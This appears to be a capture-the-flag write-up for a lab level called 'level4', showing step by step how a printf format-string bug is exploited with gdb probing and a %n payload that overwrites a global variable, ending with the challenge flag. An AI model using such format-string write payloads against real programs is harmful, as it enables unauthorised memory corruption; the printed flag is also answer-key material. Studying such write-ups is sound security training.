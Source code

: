 ### Download binary
``scp -P4242 level4@192.168.31.170:/home/user/level4/level4 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)
This one is almost exactly like the previous one, the only few things that change are
-The value that we must put in m is too large for the buffer (16930116 in decimal, and we can only write about 520 char)
-The pointer that point to the beginning of our string is rank 12 on the stack (instead of 4)

----

### Building the payload

We need this payload :

**M ADRESS + FILLING CHAR + MEMORY ADRESS OF M IN STACK + %n**

``gdb ./level4``

**Searching for m adress :**
``(gdb) info variables``
>All defined variables:
[...]
0x08049810  m

**Searching for the stack adress of our input :**
``python -c "print 'AAAA' + ' %x ' * 12" | ./level4``
>AAAA b7ff26b0  bffff784  b7fd0ff4  0  0  bffff748  804848d  bffff540  200  b7fd1ac0  b7ff37d0  41414141  20782520  20782520

-> **12th place**.

This time, we don't have enough space in buffer to store the number of char we need. So we gonna use a printf format option.
The width specifier is denoted by a number that specifies the minimum number of characters to be printed. If the printed value has fewer characters than the specified width, it will be padded with spaces on the left by default.

This is our final payload:
``python -c "print '\x10\x98\x04\x08' + '%16930112u' + '%12\$n'" > /tmp/payload``

----

#### Getting the flag

``cat /tmp/payload | ./level4``

>[a lot of spaces]
3086952112
**0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a**
